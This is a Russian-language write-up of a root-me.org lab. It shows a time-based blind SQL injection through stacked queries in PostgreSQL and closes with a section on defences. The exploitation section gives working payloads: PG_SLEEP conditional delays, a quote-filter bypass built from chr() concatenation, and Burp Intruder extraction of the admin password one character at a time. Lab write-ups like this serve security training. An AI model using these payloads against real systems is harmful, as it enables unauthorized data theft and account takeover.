




## Lab: SQL Injection - Time-based (stacked-queries)

**Платформа:** root-me.org
**Категория:** SQL Injection
**Сложность:** Medium
**Дата:** 2025-07-25

---


## TL;DR
Параметр `member` в эндпоинте `?action=member` уязвим к SQL-инъекции типа stacked queries (PostgreSQL). Приложение не выводит данные и ошибки в ответе (полностью blind), поэтому эксплуатация строилась на time-based технике через `PG_SLEEP()`. Фильтрация одинарных кавычек оказалась некорректной (аналогично предыдущей лабе на SQLite) и обходилась через функцию `chr()` с конкатенацией. В результате подтверждена таблица `users`, а пароль пользователя `admin` извлечён посимвольно через бинарный перебор ASCII-кодов с измерением времени ответа.

## Теория: stacked queries

Stacked queries (составные/последовательные запросы) — техника SQL-инъекции, при которой в один вызов к базе передаётся несколько SQL-операторов подряд, разделённых точкой с запятой (`;`). В отличие от классической инъекции через `UNION SELECT` или `OR 1=1`, где атакующий модифицирует **один** существующий запрос, stacked queries позволяют **добавить второй, полностью самостоятельный SQL-оператор**, который выполнится сразу после оригинального.

Пример:
```sql
SELECT * FROM members WHERE member_id = 1;SELECT PG_SLEEP(5)
```
Здесь `SELECT * FROM members WHERE member_id = 1` — оригинальный запрос приложения, а `SELECT PG_SLEEP(5)` — полностью самостоятельный оператор, добавленный через инъекцию.

**Условия для эксплуатации:**
- Драйвер/библиотека работы с БД должна поддерживать выполнение нескольких операторов в одном вызове (не все драйверы это допускают — например, многие обёртки MySQL по умолчанию это блокируют, тогда как некоторые реализации на PHP с PostgreSQL это позволяют).
- Параметр не должен фильтровать символ `;`.

**Почему это опаснее обычной инъекции:**
Через `UNION SELECT` атакующий ограничен чтением данных в рамках одного `SELECT`-запроса. Stacked queries снимают это ограничение — вторым оператором можно выполнить произвольную SQL-команду: `INSERT`, `UPDATE`, `DELETE`, вызов хранимых процедур и т.д., в рамках прав пользователя БД, используемого приложением.

**Применение в blind-сценарии:**
Когда результат запроса не отображается в ответе (как в данной лабе), stacked queries в связке с функцией задержки (`PG_SLEEP()` для PostgreSQL, `WAITFOR DELAY` для MSSQL) позволяют извлекать данные через time-based технику: второй оператор оборачивается в условную конструкцию `CASE WHEN условие THEN PG_SLEEP(N) ELSE PG_SLEEP(0) END`, и по наличию/отсутствию задержки в ответе делается вывод об истинности условия — бит за битом, символ за символом.

## Разведка

### Шаг 1 - Обнаружение точки входа

Цель: `GET /web-serveur/ch40/?action=member&member=`

Страница `?action=member&member=N` требует авторизации — без валидной сессии сервер всегда возвращает одинаковый ответ ("You need to login") с постоянным `Content-Length: 794`, независимо от значения `member`. Прямое тестирование инъекции в этом параметре без сессии не давало никакого сигнала.

### Шаг 2 - Разведка доступных без авторизации точек

`?action=memberlist` оказался доступен без логина и раскрыл список пользователей с их ID:

```
ID 1 - admin
ID 2 - jsilver
ID 3 - jsparow
```

Это дало реальный логин (`admin`) для дальнейшего тестирования формы входа.



### Шаг 3 - Тестирование формы логина

Проверка стандартных time-based нагрузок для разных СУБД (MySQL `SLEEP()`, PostgreSQL `PG_SLEEP()`, MSSQL `WAITFOR DELAY`) на полях `username`/`password` формы входа не дала результата — задержки не воспроизводились.

### Шаг 4 - Обнаружение точки инъекции в параметре member

При тестировании GET-параметра `member` напрямую (запрос доходит до обработки ещё до финальной проверки сессии) обнаружено, что запрос со stacked query и `PG_SLEEP` даёт устойчивую задержку:

```
member=1;SELECT PG_SLEEP(2)--
```
→ стабильная задержка ~2 секунды.

Контрольные проверки подтвердили, что дело именно в исполнении инъекции, а не в сетевом шуме:
- `member=1` (без инъекции) → 1-3 мс.
- `member=1;SELECT 1--` (stacked query без SLEEP) → 2 мс.
- `member=1 AND (SELECT 1 FROM PG_SLEEP(3))` (подзапрос без stacked query) → не сработал, задержки нет.

Это подтвердило: инъекция работает именно через **stacked queries** (`;`), а не через подзапрос в условии `WHERE` — то есть используемый драйвер PostgreSQL допускает выполнение нескольких операторов в одном вызове.

Замечено, что реальная задержка упирается в потолок около 2-2.5 секунд независимо от заданного значения `PG_SLEEP(N)` при N > 2 — предположительно, `statement_timeout` на стороне БД. Значения `PG_SLEEP(1)` и `PG_SLEEP(2)` отрабатывали пропорционально запрошенному времени, что подтвердило рабочую инъекцию.



### Шаг 5 - Boolean-условие через CASE WHEN

Для дальнейшего извлечения данных нужна конструкция с условной задержкой:

```
member=1;SELECT CASE WHEN (1=1) THEN PG_SLEEP(2) ELSE PG_SLEEP(0) END--
```
→ задержка ~2 секунды (условие истинно).

```
member=1;SELECT CASE WHEN (1=2) THEN PG_SLEEP(2) ELSE PG_SLEEP(0) END--
```
→ мгновенный ответ (условие ложно).

Разница подтвердила рабочий движок для посимвольного time-based извлечения данных.

---

## Эксплуатация

### Шаг 1 - Обход фильтрации кавычек

Попытка обратиться к `information_schema.tables` со строковым литералом в кавычках не дала сигнала ни в истинной, ни в ложной ветке условия:

```
member=1;SELECT CASE WHEN EXISTS(SELECT 1 FROM information_schema.tables WHERE table_name='users') THEN PG_SLEEP(2) ELSE PG_SLEEP(0) END--
```

Отсутствие задержки в обоих направлениях указывало на то, что символ `'` ломает синтаксис второго SQL-оператора целиком (аналогично проблеме экранирования, обнаруженной ранее в лабе на SQLite) — весь `CASE WHEN` не выполнялся.

Обход — построение строки через функцию `chr()` с конкатенацией `||`, без единого символа кавычки в payload:

```
member=1;SELECT CASE WHEN EXISTS(SELECT 1 FROM information_schema.tables WHERE table_name=chr(117)||chr(115)||chr(101)||chr(114)||chr(115)) THEN PG_SLEEP(2) ELSE PG_SLEEP(0) END--
```
(`chr(117)||chr(115)||chr(101)||chr(114)||chr(115)` = `users`)

→ задержка подтвердилась, таблица `users` существует.



### Шаг 2 - Определение длины пароля

```
member=1;SELECT CASE WHEN (LENGTH((SELECT password FROM users WHERE username=chr(97)||chr(100)||chr(109)||chr(105)||chr(110)))>N) THEN PG_SLEEP(2) ELSE PG_SLEEP(0) END--
```
(`chr(97)||chr(100)||chr(109)||chr(105)||chr(110)` = `admin`)

Перебором значений `N` определена точная длина пароля — **13 символов**.

### Шаг 3 - Посимвольное извлечение через Burp Intruder

Для каждой позиции строки (1-13) запускалась атака Intruder (Sniper) с перебором ASCII-кода символа:

```
member=1;SELECT CASE WHEN (ASCII(SUBSTRING((SELECT password FROM users WHERE username=chr(97)||chr(100)||chr(109)||chr(105)||chr(110)),POS,1))=§ASCII_CODE§) THEN PG_SLEEP(2) ELSE PG_SLEEP(0) END--
```

Payload list: числа от 32 до 126 (диапазон печатаемых ASCII-символов).

Результаты сортировались по столбцу **Response received** — искомый символ на каждой позиции давал устойчивую задержку ~2000+ мс, все остальные значения отрабатывали за десятки-сотни миллисекунд.

*(Замечено: при высокой скорости параллельных запросов Intruder возникал эффект "ложной задержки" на нескольких соседних значениях подряд из-за очереди запросов на сервере. Каждое найденное совпадение дополнительно проверялось изолированным запросом в Burp Repeater для исключения этого артефакта.)*

Первый найденный символ: позиция 1 → ASCII `84` → `S`.

Аналогичным образом (Intruder + подтверждение в Repeater) определены остальные 12 символов пароля.



### Шаг 4 - Вход в систему

Собранный пароль использован для входа под учётной записью `admin` через стандартную форму логина (`?action=login`).


---

## Вывод / причина уязвимости

- Отсутствие параметризованных запросов (prepared statements) — параметр `member` подставлялся в SQL-строку напрямую, что допустило stacked queries.
- Используемый драйвер работы с PostgreSQL допускает выполнение нескольких SQL-операторов в одном вызове через `;` — существенно расширяет поверхность атаки по сравнению с классической однооператорной инъекцией.
- Приложение не выводит ни данные, ни сообщения об ошибках SQL в ответе — единственным каналом извлечения данных стало измерение времени ответа (time-based blind SQLi).
- Некорректная фильтрация одинарной кавычки (аналогично ранее обнаруженной проблеме на SQLite) ломала синтаксис инъектированного оператора при использовании строковых литералов, что потребовало обхода через `chr()` + конкатенацию `||`.

## Защита

```php
// Использование prepared statements вместо конкатенации строк,
// и явное отключение поддержки нескольких операторов в одном запросе:
$stmt = $db->prepare('SELECT * FROM users WHERE member_id = :id');
$stmt->bindValue(':id', $member_id, PDO::PARAM_INT);
$result = $stmt->execute();
```

Дополнительно:
- Приводить числовые параметры (`member`) к типу `int` до использования в запросе.
- Отключать поддержку multiple statements на уровне драйвера БД, если она не требуется приложением (например, `PDO::MYSQL_ATTR_MULTI_STATEMENTS => false` — аналогичные флаги стоит проверить и для используемого PostgreSQL-драйвера).
- Не полагаться на экранирование спецсимволов как единственный метод защиты — оно зависит от диалекта СУБД и легко обходится при несоответствии.
- Применять принцип наименьших привилегий для аккаунта БД, используемого приложением, чтобы ограничить ущерб от stacked queries даже в случае успешной инъекции.
- Настроить/проверить `statement_timeout` на стороне БД как дополнительный (но не единственный) барьер, замедляющий time-based атаки.